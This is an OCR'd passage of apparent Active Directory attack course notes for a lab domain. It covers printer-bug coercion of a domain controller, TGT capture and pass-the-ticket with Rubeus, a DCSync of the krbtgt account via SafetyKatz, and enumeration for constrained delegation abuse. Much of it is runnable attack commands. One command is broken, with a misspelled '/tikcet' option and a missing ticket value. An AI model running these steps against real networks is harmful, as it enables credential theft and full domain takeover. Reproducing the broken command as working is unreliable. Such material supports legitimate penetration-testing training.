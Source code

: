 Let's use MS-RPRN.exe (`https://github.com/leechristensen/SpoolSample`) on us-
web:


```
MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```


We can capture the TGT of us-dc$ by using Rubeus on us-web:

```
Rubeus.exe monitor /interval:5
```

Copy the base64 encoded TGT, remove extra spaces and use it on the attacker'
machine:

```
Rubeus.exe ptt /tikcet:
```


Run DCSync:

```
SafetyKatz.exe '"lsadump::dcsync /user:us\krbtgt"'
```

### Constrained Delegation


To impersonate the user, Service for User (S4U) extension is used which provides
two extensions:
− Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a
second service (controlled by SPNs on msDs-AllowedToDelegateTo) on behalf of a
user.
− Service for User to Self (S4U2self) - Allows a service (must have
TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION) to obtain a forwardable TGS to
itself on behalf of a user (no actual Kerberos authentication by user takes place).
Used in Protocol Transition i.e. when user authenticates with non-Kerberos
authentication.

 SeEnableDelegation privileges are needed to configure Constrained Delegation.
• Two ways to configure constrained delegation:
- Kerberos only: Kerberos authentication is needed for the service to delegate.
- Protocol transition: Regardless of authentication the service can delegate.

To abuse constrained delegation with protocol transition, we need to
compromise the web service (first hop) account. If we have access to
that account, it is possible to access the services listed in msDS-
AllowedToDelegateTo of the web service account as ANY user.


### Constrained Delegation with Protocol Transition

Using PowerView:

~~~
Get-DomainUser –TrustedToAuth
Get-DomainComputer –TrustedToAuth
~~~

